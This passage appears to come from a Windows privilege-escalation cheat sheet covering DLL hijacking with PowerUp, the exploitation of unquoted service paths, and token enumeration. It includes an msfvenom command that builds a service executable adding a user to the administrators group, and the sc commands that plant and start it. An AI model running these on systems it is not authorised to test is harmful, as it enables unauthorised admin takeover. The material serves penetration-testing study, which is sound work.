 Usually, we write the malicious DLL using `Write-HijackDll` function of PowerUp and restart the program. When the program starts it loads the malicious DLL and executes our code with higher privilege.

```
Write-HijackDll -DllPath 'C:\Temp\wlbsctrl.dll'
```

**Unquoted Service Path**

Check the `unquotedsvc` and if the `BINARY_PATH_NAME` field does not have quotations around it, it can be exploited.

```
sc qc unquotedsvc
```

We can create a malicious executable and name it as one of the path names.

```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

Place the file in the unquoted path folder, then start the `unquotedsvc` to exploit.

```
sc start unquotedsvc
```

**Program Files**

Check the installed applications. If there are any that we don't know of make sure to research them.

### User Enumeration

**Current User**

Check the current user with the `whoami` command

```
whoami
```

**Current Privileges**

Check the current privileges by adding `/priv` to the above command

```
whoami /priv
```

If any of the following tokens appear as enabled they can potentially be exploited:
- `SeAssignPrimaryToken`
- `SeBackup`
- `SeCreateToken`
- `SeDebug`
- `SeLoadDriver`
- `SeRestore`
- `SeTakeOwnership`
- `SeTcb`
